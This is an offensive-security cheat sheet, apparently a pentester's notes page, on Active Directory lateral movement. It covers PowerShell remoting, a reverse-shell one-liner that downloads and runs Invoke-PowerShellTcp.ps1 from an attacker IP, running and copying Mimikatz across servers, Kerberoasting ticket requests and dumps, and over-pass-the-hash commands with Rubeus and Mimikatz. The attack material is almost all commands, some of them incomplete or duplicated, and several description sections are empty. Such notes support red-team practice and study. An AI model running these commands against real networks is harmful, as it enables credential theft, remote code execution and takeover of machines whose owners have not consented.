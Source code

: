 # AD - Lateral Movement / Connections

## **Connections**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**\
****Enter-PSSession -Computername

**Save and use sessions of a machine**\
****$sess = New-PSSession -Computername\
Enter-PSSession $sess

**Powershell reverse shell**\
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000

**Execute commands on a machine**\
Invoke-Command -Computername -Scriptblock {whoami}\
Invoke-Command -Computername -Scriptblock {whoami}

**Load script on a machine**\
****Invoke-Command -Computername -FilePath\
Invoke-Command -FilePath $sess

**Execute locally loaded function on a list of remote machines**\
Invoke-Command -Scriptblock ${function:} -Computername (Get-Content \<list\_of\_servers>)\
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content \<list\_of\_servers>)

**Copy script to other server**\
****Copy-Item .\Invoke-MimikatzEx.ps1 \\\hostname\c$\\'Program Files'\
****

```
```

## **Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - **** Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel\
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"

**Dump the ticket**\
Invoke-Mimikatz -Command '"kerberos::list /export"'

\=> Now Crack\


## Over-Pass the Hash <a href="#over-pass-the-hash" id="over-pass-the-hash"></a>

### Description



### Attack commands

Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> \[/domain:DOMAIN] \[/opsec] /ptt

sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe



